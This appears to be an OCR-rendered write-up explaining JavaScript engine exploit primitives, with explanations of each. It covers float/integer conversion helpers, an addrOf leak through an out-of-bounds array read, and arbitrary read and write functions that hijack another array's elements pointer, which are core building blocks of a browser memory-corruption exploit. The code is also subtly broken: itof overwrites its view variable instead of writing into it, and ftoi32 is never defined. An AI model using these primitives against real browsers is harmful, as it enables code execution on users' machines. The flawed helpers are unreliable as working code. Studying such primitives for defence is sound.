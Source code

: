 ```js
function i32tof(i1, i2) {
    intView[0] = i1;
    intView[1] = i2;
    return dblArr[0];
}
```

Places 2 32-bit values on `ArrayBuffer` and accesses them as a 64-bit value through `dblArr[0]`. As `dblArr` is 64-bit it will access 64-bits at once and return them. 

```js
function itof(i) {
    bigIntView = BigInt(i);
    return dblArr[0];
}

function ftoi(f) {
    dblArr[0] = f;
    return bigIntView[0];
}
```

Takes integer converts it to 64-bit and then to float 2nd function takes float and converts it to a 64-bit integer.

```js
function addrOf(obj, dblOffset) {
  oobObjArr[0] = obj;
  var addrDbl = oobDblArr[dblOffset];
  return ftoi32(addrDbl)[0];
}
```

`dblOffset` is offset of `OobDblArr` from either `OobObjArr` or `OobDblArr2`. The object whose address we want to find is placed at `oobObjArr[0]`. Then we use OOB read from `oobDblArr` to read the address of object from `OobObjArr`. We just need the 32-bit offset that is always same so we use `ftoi32()`.

```js 
function read(addr, dblArrOffset) {
  var oldValue = oobDblArr[dblArrOffset];
  oobDblArr[dblArrOffset] = i32tof(addr, 2);
  var out = ftoi32(oobDblArr2[0]);
  oobDblArr[dblArrOffset] = oldValue;
  return out;
}
```

`dblArrOffset` is offset of `OobDblArr` from either `OobObjArr` or `OobDblArr2`. Old value is saved. We overwrite the `elements` member of `OobDblArr2` with the `addr`. Now `oobDblArr2[0]` will access the value at `addr + 0x8` beacause the values are stored in `elements` after map (32-bit) and length (32-bit). We convert the float to 32-bit integer, replace the old value and return the address read at `addr + 0x8`.

```js
function write(addr, val1, val2, dblArrOffset) {
  var oldValue = oobDblArr[dblArrOffset];
  oobDblArr[dblArrOffset] = i32tof(addr, 2);
  oobDblArr2[0] = i32tof(val1, val2);
  oobDblArr[dblArrOffset] = oldValue;
  return; 
}
```
